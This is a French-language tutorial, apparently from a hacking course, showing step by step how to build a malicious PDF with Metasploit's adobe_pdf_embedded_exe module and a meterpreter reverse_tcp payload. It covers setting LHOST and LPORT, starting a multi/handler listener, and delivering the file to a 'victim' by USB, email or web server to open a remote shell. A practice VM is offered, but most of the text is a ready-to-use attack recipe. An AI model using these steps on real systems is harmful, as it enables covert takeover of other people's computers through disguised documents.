

# Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk) 

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez search windows fileformat pdf. Vous aurez un résultat comme ci dessous :



Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```


Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez set LHOST x.x.x.x en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez set LPORT xxx en remplaçant xxx par le port de votre choix (par exemple, set LPORT 4444).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant set FILENAME xxxx.pdf en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 


Enregistrez template.pdf s’il vous le demande.


Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez help pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !
